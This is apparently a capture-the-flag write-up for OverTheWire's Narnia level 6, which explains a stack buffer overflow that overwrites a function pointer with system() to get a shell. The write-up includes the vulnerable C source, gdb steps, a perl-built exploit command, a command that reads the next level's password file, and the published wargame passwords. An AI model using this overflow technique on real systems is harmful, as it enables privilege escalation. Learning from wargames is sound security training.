

# Level 6 → Level 7

## Solution
```
ssh narnia6@narnia.labs.overthewire.org -p 2226
```
```
BAV0SUV0iM
```
```
cd /narnia ; ls -al
```
```
./narnia6
```


Let's look at the code:

```
cat narnia6.c
```

The printed file is shown below:

```c
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
        char b1[8], b2[8];
        int  (*fp)(char *)=(int(*)(char *))&puts, i;

        if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

        /* clear environ */
        for(i=0; environ[i] != NULL; i++)
                memset(environ[i], '\0', strlen(environ[i]));
        /* clear argz    */
        for(i=3; argv[i] != NULL; i++)
                memset(argv[i], '\0', strlen(argv[i]));

        strcpy(b1,argv[1]);
        strcpy(b2,argv[2]);
        //if(((unsigned long)fp & 0xff000000) == 0xff000000)
        if(((unsigned long)fp & 0xff000000) == get_sp())
                exit(-1);
        setreuid(geteuid(),geteuid());
    fp(b1);

        exit(1);
}
```

`fp` (short for function pointer) is a variable that contains an address to the `puts` function. That means `fp` can be used to access `puts`. Can `fp` be changed? At first glance no, because it seems that it will appear at the top of the stack (and then there is nothing to overwrite despite the use of `strcpy` later)

However, checking the stack after copying the strings `b1` and `b2` (break point after the second `strcpy`)shows an interesting phenomenon, in which the order of the variables is not as I had anticipated:

```
gdb ./narnia6
```
```
b *0x8049sfa
```


```
r aaaaaaa bbbbbbb
```
```
x/40wx $sp
```


* Red - `b2`
* Green - `b1`
* Yellow - `fb`
* Blue - `i`

Is it possible to overwrite `fb` with `b1` to be the `system` function, then overwrite `b1` with `b2` to contain "/bin/sh"?
If so, then we have changed `fb(b1)` from `puts(string)` to `system("/bin/sh")`.

Let's check what the address of the system function is:

```
p system
```


```
exit
```
```
./narnia6 $(perl -e 'print "aaaaaaaa\x70\x81\xc4\xf7"') $(perl -e 'print "bbbbbbbb/bin/sh\x00"')
```
```
id
```
```
whoami
```
```
cat /etc/narnia_pass/narnia7
```



## Password for the next level:
```
YY4F9UaB60
```
